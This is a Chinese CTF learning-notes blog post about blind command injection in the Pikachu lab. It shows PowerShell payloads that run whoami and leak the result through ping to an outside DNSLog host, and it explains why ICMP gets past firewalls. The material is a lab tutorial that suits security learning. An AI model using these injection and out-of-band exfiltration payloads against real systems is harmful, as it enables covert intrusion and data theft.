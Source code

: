 ```yaml
---
title: 20250114CTF学习笔记40
date: 2025-01-14
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true




















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第56天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 防火墙出入站

要控制对方，无非有两种方式，一是主动找他控制，另一种是对面把权限给你。看哪种方式可达。

### 实际案例3：数据不回显-ICMP带外查询Dnslog

在之前的情况下，我们在拼接命令后提交是能回显的，如下图所示：

![image-20250114210150069](/img/ctfLearn/image-20250114210150069.png)

我们修改一下源码，让他不回显，源码的路径如下`C:\Tools\phpstudy_pro\WWW\pikachu\vul\rce\rce_ping.php`

![image-20250114210529887](/img/ctfLearn/image-20250114210529887.png)

我们将这行代码注释掉，`echo`是输出的意思。php代码的注释用的是`//`

此时不管我们是输入`127.0.0.1|whoami`还是`127.0.0.1`，都是没有回显的：

![image-20250114210820722](/img/ctfLearn/image-20250114210820722.png)

#### **总结：**

已知有漏洞，但是数据不回显：

1. 我们可以尝试反弹Shell，将权限直接给出来
2. 我们也可以带外查询，让他主动把结果给出来

#### **原理：**

找个DNSLog工具，每次ping该地址就会展示`DNS Query Record`即DNS查询记录、IP地址、创建时间，如下图所示：

![image-20250114214614505](/img/ctfLearn/image-20250114214614505.png)

此时我们在ping命令的域名上加上子域名，并且给子域名加上反引号，让反引号内部先执行，ping成功后即可得到结果：

![image-20250114221541697](/img/ctfLearn/image-20250114221541697.png)

 但是，需要注意的是我们用的是Linux来进行的ping命令，而不是Windows，要知道在Windows中，cmd命令里是没有反引号先执行这条规定的，我们只能另辟蹊径，这里用到PowerShell来执行即可：

![image-20250114223734005](/img/ctfLearn/image-20250114223734005.png)

```
C:\Users\19854>powershell
Windows PowerShell
版权所有 (C) Microsoft Corporation。保留所有权利。

尝试新的跨平台 PowerShell https://aka.ms/pscore6

PS C:\Users\19854> $x=whoami
PS C:\Users\19854> echo $x
laptop-kl37dc4i\19854
PS C:\Users\19854> $x=whoami;$y='.northglory.eyes.sh';
PS C:\Users\19854> echo $x;
laptop-kl37dc4i\19854
PS C:\Users\19854> echo $y;
.northglory.eyes.sh
PS C:\Users\19854> echo $x+$y
laptop-kl37dc4i\19854+.northglory.eyes.sh
PS C:\Users\19854> $z=$x+$y;
PS C:\Users\19854> echo $z;
laptop-kl37dc4i\19854.northglory.eyes.sh
PS C:\Users\19854> ping $z;
Ping 请求找不到主机 laptop-kl37dc4i\19854.northglory.eyes.sh。请检查该名称，然后重试。
PS C:\Users\19854> $x1=$x.replace('\','xxx');
PS C:\Users\19854> echo $x1;
laptop-kl37dc4ixxx19854
PS C:\Users\19854> $z=$x1+$y;
PS C:\Users\19854> echo $z;
laptop-kl37dc4ixxx19854.northglory.eyes.sh
PS C:\Users\19854> ping $z;

正在 Ping laptop-kl37dc4ixxx19854.northglory.eyes.sh [172.104.163.125] 具有 32 字节的数据:
来自 172.104.163.125 的回复: 字节=32 时间=107ms TTL=47
来自 172.104.163.125 的回复: 字节=32 时间=125ms TTL=47

172.104.163.125 的 Ping 统计信息:
    数据包: 已发送 = 2，已接收 = 2，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 107ms，最长 = 125ms，平均 = 116ms
Control-C
PS C:\Users\19854>
```

一开始ping不通是因为有反斜杠，我们用xxx替换了反斜杠，然后重新ping了一下，此时查看DNSLog页面，发现已经有了这条记录：

![image-20250114223929523](/img/ctfLearn/image-20250114223929523.png)

我们整理一下刚才PowerShell的语句：

```powershell
powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.northglory.eyes.sh';$z=$x+$y;ping $z;
```

#### **为什么要这样写：**

1. 因为CMD里无法执行`whoami`，在ping命令中，无法完成反引号先执行，无法解析whoami

2. 用到PowerShell变量赋值，把执行结果给变量

3. 又由于结果里带符号"\\"，导致ping无法执行，所以要替换反引号为xxx

#### **步骤：**

1. 首先要考虑pikachu的这个ping漏洞是否能执行命令，我们可以输入以下内容尝试发送：

   ```
   127.0.0.1|ping northglory.eyes.io
   ```

2. 看到DNSLog平台上有回显，说明是能执行命令且能ping通的。

3. 但由于是Windows系统的CMD是没有反引号先执行这条规则的，所以需要用到PowerShell的变量赋值，让`$x=whoami`，这句是核心，后边拼接`.northglory.eyes.s`

4. 最后发现ping的时候，我们执行完`whoami`的结果有个反斜杠，导致ping命令不能执行了，这种情况只要把$x执行完`whoami`后再替换一下反斜杠即可。

#### **实践：**

用127.0.0.1和刚才的PowerShell命令做拼接，然后放到pikachu的漏洞中去实验，具体内容如下：

```powershell
127.0.0.1|powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.northglory.eyes.sh';$z=$x+$y;ping $z;
```

如下图，我们在pikachu中点击提交以后，成功ping到了DNSlog平台，记录中展示了`whoami`的结果

![image-20250114230040633](/img/ctfLearn/image-20250114230040633.png)

#### **注意：**

仔细阅读刚才的PowerShell代码，要理解代码的执行顺序，先是`$x=whoami`的时候，就已经成功执行了，然后才做的替换，所以DNSLog有了后边我们的结果。

同理，我们不只是可以执行`whoami`，还有其他很多命令可以执行，比如`dir`是查看目录。

#### **思考：**

曾经遇到过Ping的CTF题目，但当时环境没有互联网，只能Ping本地，也就是127.0.0.1之类的地址，可能这种就不能用以上的方法了。只能用管道符这种最基础的命令拼接的形式，用不到反弹Shell和DNSLog带外回显了。

#### **网络协议：**

用反弹Shell需要考虑防火墙的问题，但Ping的解析，也就是利用PowerShell和DNSlog做带外回显能绕过防火墙

**原因：**ping命令走的ICMP协议，而防火墙禁用端口是控制TCP/UDP协议，也就是控制传输层，但是ICMP是网络层，是传输层下层，不受防火墙影响。所以可以使用ping命令将数据带出。

![image-20250114232219279](/img/ctfLearn/image-20250114232219279.png)


> **课外知识：**
>
> 在连接互联网的情况下，不管Windows系统还是Linux系统都可以用以下命令查询互联网IP地址
>
> ```shell
> curl ifconfig.me
> ```
>
> **安装本地工具：**
>
> YAKIT（Yet Another Knife for IT Security）【[官方网站](https://yaklang.com/)】是一款网络安全单兵工具，专为个人渗透测试员和安全研究人员设计。它整合了一系列实用的安全工具，例如密码破解工具、网络扫描器、漏洞利用工具等，帮助用户在一个集中化的界面下执行常见的渗透测试任务。YAKIT通常轻便且易于携带，方便在需要快速响应的应急环境中使用。
>

